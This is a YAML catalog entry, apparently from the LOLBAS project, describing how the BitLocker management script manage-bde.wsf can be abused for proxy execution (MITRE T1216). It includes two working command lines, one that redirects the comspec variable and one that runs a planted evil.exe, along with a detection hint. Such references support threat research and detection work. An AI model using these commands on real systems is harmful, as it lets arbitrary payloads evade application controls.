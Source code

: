```yaml
---
name: Manage-bde.wsf
description: Script for managing BitLocker
functions:
  execute:
    - description: Set the comspec variable to another executable prior to calling manage-bde.wsf for execution.
      code: set comspec=c:\windows\system32\calc.exe & cscript c:\windows\system32\manage-bde.wsf
      mitreid: T1216
      mitrelink: https://attack.mitre.org/wiki/Technique/T1216
      operatingsystem: Windows Vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Proxy execution from script
    - description: Run the manage-bde.wsf script with a payload named manage-bde.exe in the same directory to run the payload file.
      code: copy c:\users\person\evil.exe c:\users\public\manage-bde.exe & cd c:\users\public\ & cscript.exe c:\windows\system32\manage-bde.wsf
      mitreid: T1216
      mitrelink: https://attack.mitre.org/wiki/Technique/T1216
      operatingsystem: Windows Vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Proxy execution from script
resources:
    - resource: https://gist.github.com/bohops/735edb7494fe1bd1010d67823842b712
    - resource: https://twitter.com/bohops/status/980659399495741441
fullpath:
    - path: C:\Windows\System32\manage-bde.wsf
detection:
  - IOC: Manage-bde.wsf should normally not be invoked by a user
acknowledgement:
  - Person: Jimmy
    Handle: '@bohops'
  - Person: Daniel Bohannon
    Handle: '@danielbohannon'
---
```

